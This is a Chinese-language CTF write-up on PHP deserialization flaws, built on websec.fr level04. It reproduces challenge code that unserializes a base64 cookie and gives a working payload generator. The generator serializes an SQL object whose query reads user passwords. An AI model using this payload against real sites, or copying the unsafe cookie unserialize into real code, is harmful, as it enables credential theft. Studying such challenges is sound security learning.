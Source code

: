 ## 反序列化漏洞注意事项

序列化漏洞的本质是将一个对象进行序列化，然后当php后端在反序列化这个对象时会创建这个对象，从而调用魔法函数自动执行这个对象中的某些恶意命令，例如

```php
_construct()、_destruct()这两个魔法函数，会在生成对象和对象销毁时自动调用，从而执行其中输入的恶意命令
```

例子：取自于http://www.websec.fr/#中的level04

```php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {  //在SQL对象销毁时自动执行
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

destruct在SQL对象销毁时自动进行，因此其中的代码会被执行，只要使得$query的内容是SQL恶意注入命令，该命令即在destruct执行时在SQL中执行，从而获得用户密码。

接下来是cookie部分的php代码，展示了存在cookie反序列化的安全问题，因此才可以传入一个恶意序列化值，使得在反序列化以后创建上边代码中的SQL对象，从而调用destruct()。

```php
?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));   //恶意序列化值作为cookie会在此被序列化，从而创建SQL对象，执行destuct()
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

因此要作为cookie输入的值利用一下代码生成：

```php
<?php
class SQL {
    public $query = 'select password as username from users';
    public $conn;

}
$a=new SQL();
echo base64_encode(serialize($a));
?>
//创建一个$query值为'select password as username from users'，然后创建实例，进行序列化以后base64编码，得到的值即为作为cookie注入的恶意值
```